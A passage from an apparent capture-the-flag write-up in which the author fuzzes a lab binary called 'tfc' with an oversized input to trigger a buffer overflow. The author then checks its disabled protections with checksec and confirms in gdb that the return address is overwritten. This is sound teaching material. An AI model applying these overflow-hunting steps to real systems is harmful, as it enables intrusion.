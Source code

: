 ```
  |    |    |    __)  /    \  \/ 
  |    |    |     \   \     \____
  |____|    \___  /    \______  /
                \/            \/ 
```

Looks like some type of file encrypter, let's test it out.

```
jason@knockknock:~$ echo "test" > in.tfc
jason@knockknock:~$ ./tfc in.tfc out.tfc
>> File crypted, goodbye!
jason@knockknock:~$ cat out.tfc 
��i�jason@knockknock:~$ 
```

Ok, so it does encrypt the input. Let's see what happens when we provide a huge input, maybe we'll be able to trigger buffer overflow condition.

```
jason@knockknock:~$ python -c 'print "A" * 6000' > in.tfc
jason@knockknock:~$ ./tfc in.tfc out.tfc
Segmentation fault
```

Promising! Let's see what protections are enabled on it.

```
root@kali:~# scp checksec.sh jason@172.16.246.133:.
jason@172.16.246.133's password: 
checksec.sh                                   100%   26KB  26.5KB/s   00:00    
```

```
jason@knockknock:~$ ./checksec.sh --file tfc
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   tfc
```

Wow, everything disabled! That's gonna be one quick and easy exploit... well, at least that's what I thought!

Let's get a copy of binary to our Kali (knock-knock doesn't have gdb on it) and debug it in gdb to see if we can overwrite return address.

```
root@kali:~# python -c 'print "A" * 6000' > in.tfc
root@kali:~# gdb tfc 
GNU gdb (GDB) 7.4.1-debian
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /root/tfc...(no debugging symbols found)...done.
(gdb) run in.tfc out.tfc
Starting program: /root/tfc in.tfc out.tfc

Program received signal SIGSEGV, Segmentation fault.
0x0675c916 in ?? ()
```
